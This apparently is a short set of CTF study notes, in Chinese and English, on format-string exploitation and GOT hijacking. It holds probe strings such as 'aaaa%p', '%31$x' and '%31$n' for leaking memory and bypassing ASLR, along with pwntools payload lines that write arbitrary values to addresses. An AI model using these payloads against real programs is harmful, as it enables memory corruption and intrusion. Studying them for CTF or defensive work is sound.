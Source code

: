 ![](imgs/pwn_GOT_Hijacking3.jpg)

source: [pwn_gothijack](practise/pwn_04_gothijack.c)

exp [pwn_gothijack](practise/writeup.md)
### fmt
aaaa%p %p %p %p %p %p %p %p %p %p %p %p %p
aaaa%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
x64:  aaaa%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x

[64位格式化字符串漏洞修改got表利用详解](https://www.anquanke.com/post/id/194458?display=mobile)

aaaa%p      %p %p %p %p %p     %p(第7个)
aaaa0x8048   2  3  4 5  6  0x41414141
%p.%p.%p.%p.%p.%p.%p.%p.%p

%p是0x8048000
%x是8048000

'%31$x' 任意读 -> leak libc, PIE, Heap, Stack: bypass ASLR
'%31$n' 任意写

payload = fmtstr_payload(7, {addr: 16}) # 向addr写入16
payload = flat(addr, 'a'*12, b'%7$n')   # 向addr写入16, addr占4, 4+12=16

–原理
–格式化字符串
–程序崩溃
–泄漏内存
–泄漏栈内存
–泄漏任意地址内存：覆盖小数字、覆盖大数字
–例题1：x64格式化字符串漏洞
–例题2：hijack GOT 劫持GOT表
–例题3：hijack retaddr 劫持返回地址
–盲打
https://blog.csdn.net/qq_42880719/article/details/119060634
